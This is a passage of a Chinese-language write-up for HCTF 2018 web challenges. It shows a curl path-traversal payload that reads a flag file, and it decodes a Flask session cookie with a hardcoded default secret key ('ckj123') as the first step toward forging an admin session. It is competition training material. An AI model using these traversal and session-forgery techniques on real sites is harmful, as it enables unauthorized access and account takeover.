 ```
```

payload:

` curl "http://warmup.2018.hctf.io/index.php" -d "file=hint.php?/../ffffllllaaaagggg"`

## admin

### 方法1

flask的session保存在cookie中，并通过密钥校验session的正确性。如果知道密钥，也就可以任意伪造session.

使用工具:https://github.com/noraj/flask-session-cookie-manager

```shell
qianfa@qianfa:~/Desktop/hctf$ python session_manager.py decode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc"
{"_fresh":true,"_id":{" b":"ZGU5YjQ4NzAyOWFlYmVjNjE2MmEwODgxYzVjMzgwNDcwMGM4ZDJlOTJlNjA5NDg4N2Y2YmU2NTdlYTY0NTFhMDg4ZDUyNzFjNWZhMzFjMDYyOTI3ZGU1YTNhZTdkZGQ1MWJlNzlhOWE2ZDMyNWUyMTIxNzhkZDllNjQ5MTIzMWU="},"csrf_token":{" b":"MDAxNmFiYjZmYjQ4MmEwZjdmM2NmNWIwODUyZjZmM2ZlZmZjNzMyNg=="},"image":{" b":"WWdIcw=="},"name":"tiandiwuji","user_id":"10"}
```

网站源代码:

`https://github.com/woadsl1234/hctf_flask/`

通过源码我们可以看到：

`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

尝试使用`ckj123`查看我们的cookie:

```shell
qianfa@qianfa:~/Desktop/hctf$ python session_manager.py decode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc" -s "ckj123"
{u'csrf_token': '0016abb6fb482a0f7f3cf5b0852f6f3feffc7326', u'user_id': u'10', u'name': u'tiandiwuji', u'image': 'YgHs', u'_fresh': True, u'_id': 'de9b487029aebec6162a0881c5c3804700c8d2e92e6094887f6be657ea6451a088d5271c5fa31c062927de5a3ae7ddd51be79a9a6d325e212178dd9e6491231e'}

qianfa@qianfa:~/Desktop/hctf$ tf$ python session_managerdecode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc" -s "ckj1234"
[Decoding error]Signature 'qZr8vZsK6dpC8j6l3v-Oavi_KQc' does not match
```

我们发现`ckj123`就是真实的密钥。
